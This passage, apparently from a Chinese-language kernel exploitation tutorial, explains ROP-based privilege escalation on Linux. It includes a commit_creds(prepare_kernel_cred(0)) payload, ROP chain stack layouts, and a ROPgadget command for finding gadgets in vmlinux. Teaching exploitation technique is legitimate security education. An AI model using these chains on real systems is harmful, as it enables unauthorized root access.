 ## 四、ROP提权的基础思路

在典型的`ret2usr`攻击中，内核执行流被重定向到一个用户空间的地址，这个地址中包含了提权的载荷：

```c
void __attribute__((regparm(3))) payload() {
    commit_creds(prepare_kernel_cred(0));
}
```

上述提权payload会分配一个新的凭证结构（uid=0, gid=0等）并将它应用到调用进程。我们可以构建一个ROP链，使用位于内核空间中的gadget，从而在内核中执行整个权限提升payload。

构造的ROP链结构一般是这样的：

```
|----------------------|
| pop rdi; ret         |<== low mem
|----------------------|
| NULL                 |
|----------------------|
| addr of              |
| prepare_kernel_cred()|
|----------------------|
| mov rdi, rax; ret    |
|----------------------|
| addr of              |
| commit_creds()       |<== high mem
|----------------------|
```

先将函数的第一个参数传入rdi寄存器中，从堆栈中弹出NULL，将这个值传递给prepare_kernel_cred()函数，指向一个新的凭证结构的指针将存储在rax中，执行mov rdi, rax操作，作为参数传递给commit_creds()，这样就实现了一个提权ROP链。

内核空间的gadget可以从内核的二进制文件中（vmlinux）或是内核模块中提取，使用ROPgadget来获取gadget，最好一次性把gadget都写到一个文件中，再通过grep来查找合适的gadget。

```bash 
ROPgadget --binary vmlinux > rop_gadgets.txt
```

根据前面我们构造的ROP链，要找**pop rdi; ret**和**mov rdi, rax; ret**这两个gadget，但是在vmlinux里并没有mov rdi, rax; ret这个gadget，只能用**mov rdi, rax ; call rdx和pop rdx; rer**来代替。

ROP链如下：

```
|----------------------|
| pop rdi; ret         |<== low mem
|----------------------|
| NULL                 |
|----------------------|
| addr of              |
| prepare_kernel_cred()|
|----------------------|
| pop rdx; ret         |
|----------------------|
| pop rdx; ret         |
|----------------------|
| mov rdi, rax ;       |
| call rdx             |
|----------------------|
| addr of              |
| commit_creds()       |<== high mem
|----------------------|
```
